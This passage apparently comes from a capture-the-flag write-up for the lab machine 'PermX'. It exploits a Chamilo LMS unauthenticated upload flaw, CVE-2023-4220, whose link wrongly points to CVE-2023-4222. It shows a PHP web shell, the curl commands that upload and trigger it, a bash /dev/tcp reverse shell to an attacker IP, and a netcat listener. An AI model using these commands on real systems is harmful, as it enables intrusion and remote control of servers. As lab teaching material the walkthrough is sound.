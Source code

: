 The `lms.permx.htb` site contains a login for a service called Chamilo, an online learning management system.

Researching Chamilo’s vulnerabilities, we find [CVE-2023-4220](https://www.cve.org/CVERecord?id=CVE-2023-4222), which allows unauthenticated users to upload files to `/main/inc/lib/javascript/bigupload/inc/bigUpload.php`, which can then be executed from `/main/inc/lib/javascript/bigupload/files`.

```
echo '<?php system($_GET["exec"]) ?>' > cmd.php
```

To exploit this, we upload malicious `php` code and execute it with a command (e.g., whoami) to confirm Remote Command Execution (RCE).

We upload it:

```
curl -F 'bigUploadFile=@cmd.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

And we try to execute the `whoami` command in the victim machine to confirm we have a **rce**.

```
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php?exec=whoami'

www-data
```

Upon confirming **rce**, we attempt a reverse shell.

```
curl -G 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/cmd.php' --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.134/1234 0>&1"'
```

We listen with netcat.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.123.204] 53274
bash: cannot set terminal process group (1116): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

With reverse shell access, we make the terminal session more interactive for easier navigation with TTY treatment.

```
script /dev/null -c bash
```

Press `ctrl`+`z`

```
stty raw -echo; fg
```
